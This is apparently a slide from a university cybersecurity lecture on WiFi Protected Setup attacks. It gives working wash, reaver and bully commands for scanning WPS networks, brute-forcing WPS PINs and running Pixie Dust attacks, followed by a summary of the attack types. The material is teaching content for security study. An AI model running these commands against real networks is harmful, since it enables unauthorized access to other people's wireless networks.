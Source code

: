 </div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 30 | Author: Milav Dabgar
</div>

---
layout: default
---

# WPS and Enterprise Attacks

<div class="grid grid-cols-2 gap-8">

<div>

## 🔢 WiFi Protected Setup (WPS) Attacks

### 🎯 Reaver WPS PIN Attack
```bash
# Scan for WPS-enabled networks
sudo wash -i wlan0mon

# Attack WPS with Reaver
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# Reaver with additional options
sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv -L -N -d 15 -T .5 -c 6
```

### ⚡ Pixie Dust Attack
```bash
# Bully Pixie Dust attack
sudo bully -d -v 3 AA:BB:CC:DD:EE:FF -c 6 wlan0mon

# Reaver Pixie Dust
sudo reaver -i wlan0mon -c 6 -b AA:BB:CC:DD:EE:FF -K 1 -N
```

### 🔍 WPS Attack Types
```yaml
Online PIN Attack:
  - 8-digit PIN brute force
  - 10^4 + 10^3 maximum attempts
  - Rate limiting vulnerabilities
  - Lockout mechanism bypass

Offline PIN Attack (Pixie Dust):
  - Weak random number generation
  - M1/M2 message analysis
  - PIN calculation from exchanges
  - No rate limiting required

WPS Information Disclosure:
  - WPS information elements
  - Device name and model
  - Configuration methods
  - PIN lock status
```

